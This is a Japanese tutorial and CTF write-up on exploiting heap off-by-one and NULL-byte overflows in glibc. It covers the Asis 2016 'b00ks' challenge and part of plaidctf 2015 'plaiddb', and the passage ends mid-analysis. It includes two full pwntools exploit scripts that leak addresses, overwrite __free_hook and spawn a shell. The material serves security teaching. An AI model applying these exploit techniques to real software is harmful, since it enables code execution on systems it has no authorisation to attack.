



# ヒープの Off-By-One

## はじめに

厳密に言えば、off-by-one 脆弱性は特殊なオーバーフロー脆弱性の一種です。off-by-one とは、プログラムがバッファに書き込む際、書き込むバイト数がそのバッファ自体に確保されたバイト数を超え、しかも超過がちょうど1バイトである状態を指します。

## off-by-one 脆弱性の原理

off-by-one とは1バイトのバッファオーバーフローのことです。この種の脆弱性は、多くの場合、境界チェックの不備や文字列操作に関係して生じます。もちろん、書き込む size がたまたま1バイト多いだけという場合もあり得ます。境界チェックの不備には通常、次のようなものがあります。

- ループ文でヒープブロックにデータを書き込む際、ループ回数の設定を誤り(C 言語の初心者にはよくあることです)、1バイト多く書き込んでしまう。
- 文字列操作が不適切である

一般に、1バイトのオーバーフローは悪用が難しいとされていますが、Linux のヒープ管理機構 ptmalloc の検証が緩いため、Linux のヒープに対する off-by-one 脆弱性の悪用は複雑ではなく、しかも強力です。
また、off-by-one はさまざまなバッファ、たとえばスタックや bss セグメントなどでも起こり得ますが、CTF では、ヒープ上(heap based)の off-by-one が比較的よく見られます。ここではヒープ上の off-by-one のみを扱います。

## off-by-one の悪用の考え方

1. オーバーフローするバイトを任意のバイトに制御できる場合: サイズを書き換えてブロック構造同士を重なり合わせ、ほかのブロックのデータを漏えいさせたり、上書きしたりします。NULL バイトオーバーフローの手法を使うこともできます。
2. オーバーフローするバイトが NULL バイトの場合: size が 0x100 のとき、NULL バイトをオーバーフローさせると `prev_in_use` ビットがクリアされ、直前のブロックが free ブロックだと見なされます。(1) このとき unlink の手法(unlink の部分を参照)で処理することを選べます。(2) また、このとき `prev_size` フィールドが使われるようになるため、`prev_size` を偽造してブロック同士を重ね合わせられます。この方法の要点は、unlink の際に、`prev_size` に従って見つけたブロックのサイズが `prev_size` と一致するかどうかをチェックしていないことです。

最新バージョンのコードでは、2 の後者の方法に対するチェックが追加されていますが、2.28 以前のバージョンにはこのチェックはありません。

```
/* consolidate backward */
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      /* 後ろ2行のコードは最新バージョンで追加された。これにより 2 の2つ目の方法は使えないが、2.28 以前では問題ない */
      if (__glibc_unlikely (chunksize(p) != prevsize))
        malloc_printerr ("corrupted size vs. prev_size while consolidating");
      unlink_chunk (av, p);
    }

```

### 例 1

```
int my_gets(char *ptr,int size)
{
    int i;
    for(i=0;i<=size;i++)
    {
        ptr[i]=getchar();
    }
    return i;
}
int main()
{
    void *chunk1,*chunk2;
    chunk1=malloc(16);
    chunk2=malloc(16);
    puts("Get Input:");
    my_gets(chunk1,16);
    return 0;
}
```

自分で書いた my_gets 関数が off-by-one 脆弱性を生んでいます。原因は for ループの境界をうまく制御できておらず、書き込みが1回余分に実行されることです。これはフェンスポストエラー(栅栏错误)とも呼ばれます。

> wikipedia:
> フェンスポストエラー(電柱エラーや街灯エラーとも呼ばれます)は、1つずれエラー(off-by-one error)の一種です。たとえば次のような問題があります。
>
>     まっすぐなフェンス(囲わない)を建てます。長さは 30 メートルで、フェンスの柱どうしの間隔は 3 メートルです。柱は何本必要でしょうか。
>
> 最初に思いつく答えの 10 は間違いです。このフェンスには 10 個の間隔があり、柱は 11 本です。

gdb でプログラムをデバッグすると、入力の前には、確保された2つのユーザー領域が16バイトのヒープブロックであることが分かります。
```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk1
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000021 <=== chunk2
0x602030:	0x0000000000000000	0x0000000000000000
```
my_gets で入力を行った後には、データがオーバーフローして次のヒープブロックの prev_size フィールドを上書きしていることが分かります。
print 'A'*17
```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk1
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x0000000000000041	0x0000000000000021 <=== chunk2
0x602030:	0x0000000000000000	0x0000000000000000
```

### 例 2

off-by-one を引き起こす2つ目のよくある場面は文字列操作です。よくある原因は、文字列の終端文字の計算の誤りです。

```
int main(void)
{
    char buffer[40]="";
    void *chunk1;
    chunk1=malloc(24);
    puts("Get Input");
    gets(buffer);
    if(strlen(buffer)==24)
    {
        strcpy(chunk1,buffer);
    }
    return 0;

}
```

このプログラムは一見すると何も問題がないように見えます(スタックオーバーフローは考えません)。実際のコードでもこのように書いている人は多いかもしれません。
しかし、strlen と strcpy の挙動が一致しないことで off-by-one が発生します。
strlen は ascii 文字列の長さを計算する、おなじみの関数です。この関数は文字列の長さを計算する際、終端文字 `'\x00'` を含めません。ところが strcpy は文字列をコピーする際、終端文字 `'\x00'` もコピーします。その結果、chunk1 に25バイトを書き込むことになります。gdb でデバッグすると、これが確認できます。

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk1
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000411 <=== next chunk
```

'A'*24 を入力して strcpy を実行すると

```
0x602000:	0x0000000000000000	0x0000000000000021
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x0000000000000400
```

next chunk の size フィールドの下位バイトが終端文字 `'\x00'` で上書きされていることが分かります。これも off-by-one の一種で、NULL byte off-by-one と呼ばれます。off-by-one と NULL byte off-by-one の悪用上の違いは、後ほど見ていきます。
もう1点、なぜ下位バイトが上書きされるのかというと、私たちが普段使う CPU のバイトオーダーがリトルエンディアンだからです。たとえば DWORD の値は、リトルエンディアンのメモリでは次のように格納されます。

```
DWORD 0x41424344
内存  0x44,0x43,0x42,0x41
```

### libc-2.29 以降
次の2行のコードが追加されたため、
```cpp
      if (__glibc_unlikely (chunksize(p) != prevsize))
        malloc_printerr ("corrupted size vs. prev_size while consolidating");
```
実際のチャンクの size フィールドを制御するのは難しいので、従来の off-by-null の手法は無効になりました。しかし、unlink されるチャンクが次のチャンクと連続してさえいればよいので、fake_chunk を偽造することは依然として可能です。

偽造の方法は、large bin に残った fd_nextsize と bk_nextsize ポインタを使うことです。fd_nextsize を fake_chunk の fd、bk_nextsize を fake_chunk の bk とすれば、その fake_chunk の size フィールドを完全に制御できます(この過程で元の large bin チャンクの fd ポインタは壊れますが、問題ありません)。同時に、その fd も(fd_nextsize の部分上書きによって)制御できます。後ろで別のチャンクを使って偽造を補助することで、次のチェックを通過できます。

```
  if (__glibc_unlikely (chunksize(p) != prevsize))
    malloc_printerr ("corrupted size vs. prev_size while consolidating");
```

あとは unlink のチェックを通過すればよく、それは `fd->bk == p && bk->fd == p` です。

large bin にチャンクが1つしかない場合、そのチャンクの2つの nextsize ポインタはどちらも自分自身を指します。次のとおりです。




fd_nextsize はヒープ上の任意のアドレスを指すように制御でき、たとえば fastbin + 0x10 - 0x18 を簡単に指させることができます。また fastbin 内の fd もヒープ上のアドレスを指しているので、このポインタを部分上書きして、先ほどの large bin + 0x10 を指させることもできます。こうして `fd->bk == p` のチェックを通過できます。

bk_nextsize は変更できないため、bk->fd は必ず元の large bin チャンクの fd ポインタの位置にあります(この fd は私たちが壊してしまっています)。fastbin のリストの特性を利用すると、他のデータに影響を与えずにこのポインタを変更でき、さらに部分上書きすれば `bk->fd==p` のチェックも通過できます。

その後 off-by-one で低いアドレスの方向へ統合(consolidation)すれば chunk overlapping を実現でき、続いて libc_base とヒープのアドレスを leak し、tcache で __free_hook を狙えばよいことになります。

原理を説明するだけでは理解しにくいので、問題と合わせて学ぶことをお勧めします。たとえば本文の例 3 です。

## 例 1: Asis CTF 2016 [b00ks](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/off_by_one/Asis_2016_b00ks)


### 問題の紹介


問題はよくあるメニュー式のプログラムで、機能は図書管理システムです。

```
1. Create a book
2. Delete a book
3. Edit a book
4. Print book detail
5. Change current author name
6. Exit
```

プログラムには、書籍の作成、削除、編集、表示の機能があります。問題は64ビットのプログラムで、保護は次のとおりです。

```
Canary                        : No
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Full
```

プログラムは book を1つ作成するごとに、その情報を管理するための 0x20 バイトの構造体を確保します。

```
struct book
{
    int id;
    char *name;
    char *description;
    int size;
}
```

### create

book 構造体には name と description があり、name と description はヒープ上に確保されます。まず name buffer を malloc で確保します。サイズは任意ですが 32 未満です。

```
printf("\nEnter book name size: ", *(_QWORD *)&size);
__isoc99_scanf("%d", &size);
printf("Enter book name (Max 32 chars): ", &size);
ptr = malloc(size);
```

続いて description を確保します。こちらもサイズは任意で、制限はありません。

```
printf("\nEnter book description size: ", *(_QWORD *)&size);
        __isoc99_scanf("%d", &size);

v5 = malloc(size);
```

続いて book 構造体のメモリを確保します。

```
book = malloc(0x20uLL);
if ( book )
{
    *((_DWORD *)book + 6) = size;
    *((_QWORD *)off_202010 + v2) = book;
    *((_QWORD *)book + 2) = description;
    *((_QWORD *)book + 1) = name;
    *(_DWORD *)book = ++unk_202024;
    return 0LL;
}
```

### 脆弱性

プログラムが書いた read 関数には null byte off-by-one 脆弱性があります。この read 関数をよく観察すると、境界の扱いが不適切であることが分かります。

```
signed __int64 __fastcall my_read(_BYTE *ptr, int number)
{
  int i; // [rsp+14h] [rbp-Ch]
  _BYTE *buf; // [rsp+18h] [rbp-8h]

  if ( number <= 0 )
    return 0LL;
  buf = ptr;
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)read(0, buf, 1uLL) != 1 )
      return 1LL;
    if ( *buf == '\n' )
      break;
    ++buf;
    if ( i == number )
      break;
  }
  *buf = 0;
  return 0LL;
}
```

### 悪用

#### 漏えい


プログラムの my_read 関数には null byte off-by-one があるため、実際には my_read が読み込んだ終端文字 '\x00' は 0x555555756060 の位置に書き込まれます。そのため、0x555555756060〜0x555555756068 に book のポインタが書き込まれると終端文字 '\x00' が上書きされ、ここにアドレス漏えいの脆弱性が生じます。author name を表示することで、pointer array の最初の項目の値を得られます。

```
0x555555756040:	0x6161616161616161	0x6161616161616161
0x555555756050:	0x6161616161616161	0x6161616161616161   <== author name
0x555555756060:	0x0000555555757480 <== pointer array	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
```

漏えいを実現するには、まず author name に32バイトを入力して終端文字を上書きさせる必要があります。その後 book1 を作成すると、この book1 のポインタが author name の末尾の NULL バイトを上書きし、このポインタが author name に直接つながります。こうして author name を出力すると、ヒープのポインタを取得できます。

```
io.recvuntil('Enter author name:') # input author name
io.sendline('a' * 32)

io.recvuntil('>') # create book1
io.sendline('1')
io.recvuntil('Enter book name size:')
io.sendline('32')
io.recvuntil('Enter book name (Max 32 chars):')
io.sendline('object1')
io.recvuntil('Enter book description size:')
io.sendline('32')
io.recvuntil('Enter book description:')
io.sendline('object1')

io.recvuntil('>') # print book1
io.sendline('4')
io.recvuntil('Author:')
io.recvuntil('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa') # <== leak book1
book1_addr = io.recv(6)
book1_addr = book1_addr.ljust(8,'\x00')
book1_addr = u64(book1_addr)
```


#### off-by-one でポインタの下位バイトを上書きする

プログラムには change という機能もあり、author name を変更するために使われます。そのため change で author name に書き込み、off-by-one を使って pointer array の最初の項目の下位バイトを上書きできます。


book1 のポインタの下位バイトを上書きすると、このポインタは book1 の description を指すようになります。プログラムには edit 機能があり、description の内容を自由に変更できます。そこで、あらかじめ description にデータを配置して book 構造体に見せかけ、この book 構造体の description と name のポインタを直接制御できるようにします。

```
def off_by_one(addr):
    addr += 58
    io.recvuntil('>')# create fake book in description
    io.sendline('3')
    fake_book_data = p64(0x1) + p64(addr) + p64(addr) + pack(0xffff)
    io.recvuntil('Enter new book description:')
    io.sendline(fake_book_data) # <== fake book


    io.recvuntil('>') # change author name
    io.sendline('5')
    io.recvuntil('Enter author name:')
    io.sendline('a' * 32) # <== off-by-one
```

ここでは description の中に book を偽造しており、使っているデータは p64(0x1)+p64(addr)+p64(addr)+pack(0xffff) です。
このうち addr+58 は、ポインタが book2 のポインタのアドレスを指すようにして、これらのポインタの値を自由に変更できるようにするためのものです。


#### スタックを使った悪用

前の2つの部分で、任意アドレスの読み書き能力を得ました。ここまで読んだ読者は、この先の操作は自明だと感じるかもしれません。たとえば got テーブルを書き換えて処理を乗っ取る、__malloc_hook を書き換えて処理を乗っ取る、などです。しかし、この問題の特殊な点は PIE が有効で、libc のベースアドレスを漏えいさせる方法がないことです。そのため、ほかの方法を考える必要があります。

この問題の巧妙な点は、2つ目の book を確保するときに非常に大きなサイズを使い、ヒープを mmap の方式で拡張させることです。ヒープの拡張方法には2種類あることが知られています。1つは brk で、元のヒープを直接拡張します。もう1つは mmap で、独立したメモリ領域をマップします。

ここでは非常に大きなブロックを確保して、mmap でメモリを拡張させます。mmap で確保されたメモリと libc の間には固定のオフセットがあるため、libc のベースアドレスを割り出せます。
```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/ 桌面 /123/123
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/ 桌面 /123/123
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/ 桌面 /123/123
0x00007f8d638a3000 0x00007f8d63a63000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63a63000 0x00007f8d63c63000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c63000 0x00007f8d63c67000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c67000 0x00007f8d63c69000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c69000 0x00007f8d63c6d000 0x0000000000000000 rw-
0x00007f8d63c6d000 0x00007f8d63c93000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e54000 0x00007f8d63e79000 0x0000000000000000 rw- <=== mmap
0x00007f8d63e92000 0x00007f8d63e93000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e93000 0x00007f8d63e94000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e94000 0x00007f8d63e95000 0x0000000000000000 rw-
0x00007ffdc4f12000 0x00007ffdc4f33000 0x0000000000000000 rw- [stack]
0x00007ffdc4f7a000 0x00007ffdc4f7d000 0x0000000000000000 r-- [vvar]
0x00007ffdc4f7d000 0x00007ffdc4f7f000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/ 桌面 /123/123
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/ 桌面 /123/123
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/ 桌面 /123/123
0x00007f6572703000 0x00007f65728c3000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f65728c3000 0x00007f6572ac3000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac3000 0x00007f6572ac7000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac7000 0x00007f6572ac9000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac9000 0x00007f6572acd000 0x0000000000000000 rw-
0x00007f6572acd000 0x00007f6572af3000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cb4000 0x00007f6572cd9000 0x0000000000000000 rw- <=== mmap
0x00007f6572cf2000 0x00007f6572cf3000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cf3000 0x00007f6572cf4000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cf4000 0x00007f6572cf5000 0x0000000000000000 rw-
0x00007fffec566000 0x00007fffec587000 0x0000000000000000 rw- [stack]
0x00007fffec59c000 0x00007fffec59f000 0x0000000000000000 r-- [vvar]
0x00007fffec59f000 0x00007fffec5a1000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

#### exploit

```python
from pwn import *
context.log_level="info"

binary = ELF("b00ks")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
io = process("./b00ks")


def createbook(name_size, name, des_size, des):
	io.readuntil("> ")
	io.sendline("1")
	io.readuntil(": ")
	io.sendline(str(name_size))
	io.readuntil(": ")
	io.sendline(name)
	io.readuntil(": ")
	io.sendline(str(des_size))
	io.readuntil(": ")
	io.sendline(des)

def printbook(id):
	io.readuntil("> ")
	io.sendline("4")
	io.readuntil(": ")
	for i in range(id):
		book_id = int(io.readline()[:-1])
		io.readuntil(": ")
		book_name = io.readline()[:-1]
		io.readuntil(": ")
		book_des = io.readline()[:-1]
		io.readuntil(": ")
		book_author = io.readline()[:-1]
	return book_id, book_name, book_des, book_author

def createname(name):
	io.readuntil("name: ")
	io.sendline(name)

def changename(name):
	io.readuntil("> ")
	io.sendline("5")
	io.readuntil(": ")
	io.sendline(name)

def editbook(book_id, new_des):
	io.readuntil("> ")
	io.sendline("3")
	io.readuntil(": ")
	io.writeline(str(book_id))
	io.readuntil(": ")
	io.sendline(new_des)

def deletebook(book_id):
	io.readuntil("> ")
	io.sendline("2")
	io.readuntil(": ")
	io.sendline(str(book_id))

createname("A" * 32)
createbook(128, "a", 32, "a")
createbook(0x21000, "a", 0x21000, "b")


book_id_1, book_name, book_des, book_author = printbook(1)
book1_addr = u64(book_author[32:32+6].ljust(8,'\x00'))
log.success("book1_address:" + hex(book1_addr))

payload = p64(1) + p64(book1_addr + 0x38) + p64(book1_addr + 0x40) + p64(0xffff)
editbook(book_id_1, payload)
changename("A" * 32)

book_id_1, book_name, book_des, book_author = printbook(1)
book2_name_addr = u64(book_name.ljust(8,"\x00"))
book2_des_addr = u64(book_des.ljust(8,"\x00"))
log.success("book2 name addr:" + hex(book2_name_addr))
log.success("book2 des addr:" + hex(book2_des_addr))
libc_base = book2_des_addr - 0x5b9010
log.success("libc base:" + hex(libc_base))

free_hook = libc_base + libc.symbols["__free_hook"]
one_gadget = libc_base + 0x4f322 # 0x4f2c5 0x10a38c 0x4f322
log.success("free_hook:" + hex(free_hook))
log.success("one_gadget:" + hex(one_gadget))
editbook(1, p64(free_hook) * 2)
editbook(2, p64(one_gadget))

deletebook(2)

io.interactive()
```

#### 簡潔な方法

任意の読み書きができた後で libc を見つける別の方法として、実は任意の読み書きを行う前に、まず libc のアドレスをヒープ上に書き込ませておき、その後で任意読み取りによってそれを読み出すこともできます。

libc のあるオフセットを見つけるには、gdb で直接デバッグして、具体的な libc のアドレスがヒープ上のどこにあるかを確認すればよく、わざわざ計算する必要はありません。

exp は次のとおりです。

```
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8

import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) > 2:
    DEBUG = 0
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])

    p = remote(HOST, PORT)
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)

def cmd(choice):
    p.recvuntil('> ')
    p.sendline(str(choice))


def create(book_size, book_name, desc_size, desc):
    cmd(1)
    p.recvuntil(': ')
    p.sendline(str(book_size))
    p.recvuntil(': ')
    if len(book_name) == book_size:
        p.send(book_name)
    else:
        p.sendline(book_name)
    p.recvuntil(': ')
    p.sendline(str(desc_size))
    p.recvuntil(': ')
    if len(desc) == desc_size:
        p.send(desc)
    else:
        p.sendline(desc)


def remove(idx):
    cmd(2)
    p.recvuntil(': ')
    p.sendline(str(idx))


def edit(idx, desc):
    cmd(3)
    p.recvuntil(': ')
    p.sendline(str(idx))
    p.recvuntil(': ')
    p.send(desc)


def author_name(author):
    cmd(5)
    p.recvuntil(': ')
    p.send(author)


libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def main():
    # Your exploit script goes here

    # leak heap address
    p.recvuntil('name: ')
    p.sendline('x' * (0x20 - 5) + 'leak:')

    create(0x20, 'tmp a', 0x20, 'b') # 1
    cmd(4)
    p.recvuntil('Author: ')
    p.recvuntil('leak:')
    heap_leak = u64(p.recvline().strip().ljust(8, '\x00'))
    p.info('heap leak @ 0x%x' % heap_leak)
    heap_base = heap_leak - 0x1080

    create(0x20, 'buf 1', 0x20, 'desc buf') # 2
    create(0x20, 'buf 2', 0x20, 'desc buf 2') # 3
    remove(2)
    remove(3)

    ptr = heap_base + 0x1180
    payload = p64(0) + p64(0x101) + p64(ptr - 0x18) + p64(ptr - 0x10) + '\x00' * 0xe0 + p64(0x100)
    create(0x20, 'name', 0x108, 'overflow') # 4
    create(0x20, 'name', 0x100 - 0x10, 'target') # 5
    create(0x20, '/bin/sh\x00', 0x200, 'to arbitrary read write') # 6

    edit(4, payload) # overflow
    remove(5) # unlink

    edit(4, p64(0x30) + p64(4) + p64(heap_base + 0x11a0) + p64(heap_base + 0x10c0) + '\n')

    def write_to(addr, content, size):
        edit(4, p64(addr) + p64(size + 0x100) + '\n')
        edit(6, content + '\n')

    def read_at(addr):
        edit(4, p64(addr) + '\n')
        cmd(4)
        p.recvuntil('Description: ')
        p.recvuntil('Description: ')
        p.recvuntil('Description: ')
        content = p.recvline()[:-1]
        p.info(content)
        return content

    libc_leak = u64(read_at(heap_base + 0x11e0).ljust(8, '\x00')) - 0x3c4b78
    p.info('libc leak @ 0x%x' % libc_leak)

    write_to(libc_leak + libc.symbols['__free_hook'], p64(libc_leak + libc.symbols['system']), 0x10)
    remove(6)

    p.interactive()

if __name__ == '__main__':
    main()
```

## 例 2 : plaidctf 2015 plaiddb

```shell
➜  2015_plaidctf_datastore git:(master) file datastore
datastore: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=1a031710225e93b0b5985477c73653846c352add, stripped
➜  2015_plaidctf_datastore git:(master) checksec datastore
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/off_by_one/2015_plaidctf_datastore/datastore'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
➜  2015_plaidctf_datastore git:(master)
```

このプログラムは64ビットの動的リンクであることが分かります。保護はすべて有効です。

### 機能の解析

重要なデータ構造:

```
struct Node {
    char *key;
    long data_size;
    char *data;
    struct Node *left;
    struct Node *right;
    long dummy;
    long dummy1;
}
```

主に二分木の構造でデータを格納しています。具体的な格納の過程は、実は悪用には影響しません。

機能の関数のうち注意すべきなのは `getline`(自前で実装された1行読み取り関数)です。

```
char *__fastcall getline(__int64 a1, __int64 a2)
{
  char *v2; // r12
  char *v3; // rbx
  size_t v4; // r14
  char v5; // al
  char v6; // bp
  signed __int64 v7; // r13
  char *v8; // rax

  v2 = (char *)malloc(8uLL); // 最初に malloc(8) で確保する
  v3 = v2;
  v4 = malloc_usable_size(v2); // 使用可能サイズを計算する。たとえば malloc(8) の場合、ここは24になるはず
  while ( 1 )
  {
    v5 = _IO_getc(stdin);
    v6 = v5;
    if ( v5 == -1 )
      bye();
    if ( v5 == 10 )
      break;
    v7 = v3 - v2;
    if ( v4 <= v3 - v2 )
    {
      v8 = (char *)realloc(v2, 2 * v4); // サイズが足りないときは使用可能サイズを2倍にして realloc する
      v2 = v8;
      if ( !v8 )
      {
        puts("FATAL: Out of memory");
        exit(-1);
      }
      v3 = &v8[v7];
      v4 = malloc_usable_size(v8);
    }
    *v3++ = v6; // <--- 脆弱性のある箇所。このとき v3 はインデックスとして次の位置を指す。位置を使い切っていれば、本来は書き込み不可であるはずの次の位置を指すことになる
  }
  *v3 = 0; // <--- 脆弱性のある箇所。 off by one(NULL バイトオーバーフロー)
  return v2;
}
```

いくつかの主要な機能:

```
unsigned __int64 main_fn()
{
  char v1[8]; // [rsp+0h] [rbp-18h]
  unsigned __int64 v2; // [rsp+8h] [rbp-10h]

  v2 = __readfsqword(0x28u);
  puts("PROMPT: Enter command:");
  gets_checked(v1, 8LL);
  if ( !strcmp(v1, "GET\n") )
  {
    cmd_get();
  }
  else if ( !strcmp(v1, "PUT\n") )
  {
    cmd_put();
  }
  else if ( !strcmp(v1, "DUMP\n") )
  {
    cmd_dump();
  }
  else if ( !strcmp(v1, "DEL\n") )
  {
    cmd_del();
  }
  else
  {
    if ( !strcmp(v1, "EXIT\n") )
      bye();
    __printf_chk(1LL, "ERROR: '%s' is not a valid command.\n", v1);
  }
  return __readfsqword(0x28u) ^ v2;
}
```

`dump` と `get` はどちらも内容を読み取るためのもので、`key` も具体的なデータの内容も読み取れるため、あまり重点的に見る必要はありません。重点的に見るべきは `put` と `del` です。

```
__int64 __fastcall cmd_put()
{
  __int64 v0; // rsi
  Node *row; // rbx
  unsigned __int64 sz; // rax
  char *v3; // rax
  __int64 v4; // rbp
  __int64 result; // rax
  __int64 v6; // [rsp+0h] [rbp-38h]
  unsigned __int64 v7; // [rsp+18h] [rbp-20h]

  v7 = __readfsqword(0x28u);
  row = (Node *)malloc(0x38uLL);
  if ( !row )
  {
    puts("FATAL: Can't allocate a row");
    exit(-1);
  }
  puts("PROMPT: Enter row key:");
  row->key = getline((__int64)"PROMPT: Enter row key:", v0);
  puts("PROMPT: Enter data size:");
  gets_checked((char *)&v6, 16LL);
  sz = strtoul((const char *)&v6, 0LL, 0);
  row->data_size = sz;
  v3 = (char *)malloc(sz);
  row->data = v3;
  if ( v3 )
  {
    puts("PROMPT: Enter data:");
    fread_checked(row->data, row->data_size);
    v4 = insert_node(row);
    if ( v4 )
    {
      free(row->key);
      free(*(void **)(v4 + 16));
      *(_QWORD *)(v4 + 8) = row->data_size;
      *(_QWORD *)(v4 + 16) = row->data;
      free(row);
      puts("INFO: Update successful.");
    }
    else
    {
      puts("INFO: Insert successful.");
    }
    result = __readfsqword(0x28u) ^ v7;
  }
  else
  {
    puts("ERROR: Can't store that much data.");
    free(row->key);
    free(row);
  }
  return result;
}
```

確保の過程は次のとおりです。

1. malloc(0x38) (構造体)
2. getline (malloc と realloc)
3. malloc(size) サイズは制御可能
4. size バイトの内容を読み込む

より複雑な部分、つまり put の中で使われる `free` に関する部分は、後で使うかどうかを見てから扱います。

削除については、この関数はかなり複雑なので詳しい説明はしません。実際には、key に従って削除すること、key は `getline` で読み込まれること、その key がなければ `getline` の部分は削除されず、あれば順に `free` されることだけ知っていれば十分です。

### 悪用の解析

脆弱性の位置は機能の解析ですでに示したとおり、`getline` の中にあります。ただしこの関数が特殊なのは、確保するサイズが徐々に大きくなる点です。使用可能サイズを2倍にして増やしていき、`realloc` を使っています。つまり、この脆弱性を発動させるには、特定のサイズの要件を満たす必要があります。

確保の過程に従うと、条件を満たすサイズは次のとおりです。

* 0x18
* 0x38
* 0x78
* 0xf8
* 0x1f8
* ...

これらのサイズはいずれもオーバーフローを発動させられます。

次に、具体的にどの悪用方法を採るかを決める必要があります。まず `off-by-one` 脆弱性はヒープの交差を引き起こせ、libc アドレスの漏えいにつなげられます。その後に採る悪用方法については、すでにヒープの交差がある、つまり UAF を作れるので、UAF の一般的な方法が使えます。

UAF 脆弱性に対する最も簡単な方法はもちろん fastbin attack なので、fastbin attack を採用しました。

ここまで来たら、必要な悪用条件をどう作るかを考え始められます。`off-by-one` の最終的な効果は、解放された状態の smallbin chunk または unsortedbin chunk から、オーバーフローされたチャンクまでを、1つの大きなチャンクに統合できることです。つまり、次のようになります。

```
+------------+
|            |  <-- free 的 unsortedbin 或是 smallbin chunk （因为此时 fd 和 bk 指向合法指针，才能够进行 unlink）
+------------+
|     ...    |  <-- 任意 chunk
+------------+
|            |  <-- 进行溢出的 chunk
+------------+
|    vuln    |  <-- 被溢出的 chunk，大小为 0x_00 （例如 0x100, 0x200……）
+------------+
```

`off-by-one` による悪用の後、上に現れたチャンクはすべて、解放された状態の1つのチャンクに統合されます。こうすると、途中の任意のチャンクの位置が確保済みであれば、overlap を引き起こせます。

この悪用の考え方と、問題の `getline` 関数が `malloc(8)` の後に `realloc` で確保する方式を踏まえると、次のことが必要です。

1. 任意のチャンクの位置に、少なくとも1つ、確保済みでデータを読み出せるチャンクがあり、libc アドレスを漏えいさせられること
